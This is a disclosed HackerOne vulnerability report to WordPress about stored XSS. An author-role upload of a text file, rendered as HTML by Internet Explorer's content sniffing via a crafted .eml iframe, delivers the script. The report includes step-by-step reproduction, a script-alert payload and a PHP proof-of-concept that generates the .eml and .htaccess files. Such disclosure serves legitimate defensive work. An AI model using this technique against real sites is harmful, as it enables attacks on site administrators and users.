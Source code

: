 # Stored XSS in WordPress

## Report Details
- **Report ID**: 276105
- **URL**: https://hackerone.com/reports/276105
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-10-10T13:09:11.299Z
- **Disclosed**: 2018-02-02T18:58:35.379Z

## Reporter
- **Username**: abdullah
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
Hi, 

Introduction  
---------------

The upload mechanism in WordPress works by the role of the user who's trying to upload something. So every role has a permission to upload certain files. For the lowest role like **author** can upload harmless file such as **txt**, png, gif, jpg, zip, with this file the author role can't attack any other user with these files. 

One thing is that **txt** file is harmful! there is a way to make the files that it's `content-type` is `text/plain` to be served as `text/html` in IE all versions! 
So author can upload a txt file and attack the admin and other users with XSS exploit can be so much harmful due the admin can write php code like this #263718. 

  
Technical Details 
--------------------
IE running a content sniffing on unknown content-type and if the page that is being sniffed has an iframe to another page the sniffing will run on the framed page as well so, if the page contain html content the iframe content will be showed as HTML even if it's a text file! And `X-Content-Type-Options` is useless even if you set it's value to `nosniff` it will be sniffed by IE anyway. 

This finding belong to Jan (https://jankopecky.net/index.php/2017/04/18/0day-textplain-considered-harmful/)


Steps to reproduce
-----------

1- Sing in using author account.
2- Go to http://127.0.0.1/wordpress/wp-admin/upload.php.
3- Upload a text file like this one **test.txt** contains the following code : 
`<html><script>alert(document.domain)</script></html>`.
4- Get the file URL ex : http://127.0.0.1/wordpress/wp-content/uploads/2017/10/test.txt.
5- Create eml file using SSH. follow the [article](https://jankopecky.net/index.php/2017/04/18/0day-textplain-considered-harmful/) steps or you can use this php script that I made. 

`poc.php?url={URL of the Text file in wordpress path}`

```
<?php
$url = urlencode($_GET['url']);
$url = str_replace('%','=',$url);
$eml_content = 
"TESTME
Content-Type: text/html
Content-Transfer-Encoding: quoted-printable

=3Chtml=3E=3Ch1=3EWordPress=3C=2Fhtml=3E
=3Ciframe=20src=3D=27$url=27=3E=3C=2Fiframe=3E=0A

";
$htaccess_content = "AddType message/rfc822 .eml
Header add Content-Transfer-Encoding \"quoted-printable\"";
$eml_file = file_put_contents("test.eml", $eml_content, FILE_APPEND | LOCK_EX );
$htaccess_file = file_put_contents(".htaccess", $htaccess_content, FILE_APPEND | LOCK_EX );
//echo $eml_content;
?>
```

6- After you create `test.eml` and `.htaccess` go to test.eml in **any** Windows and any IE version and you will see an alert of WordPress host! 

Live PoC 
-----------------------
Just create a file at this path `http://127.0.0.1/wordpress/wp-content/uploads/2017/10/test.txt` with the following code :
`<html><script>alert(document.domain)</script></html>`
And access this page using IE 
http://playground.ahussam.me/test.eml
 

Screenshots 
----------------------------
{F227941}

{F227943}

Test Environment 
-------------------------
Windows 10, IE 11; Windows 8.1, IE 11; Windows 8 IE 10. 

  
   
If you have any question I will be happy to answer it. 

I am waiting your reply. 

Thanks for reading 

## Attachments
- wp1.png
- wp2.png
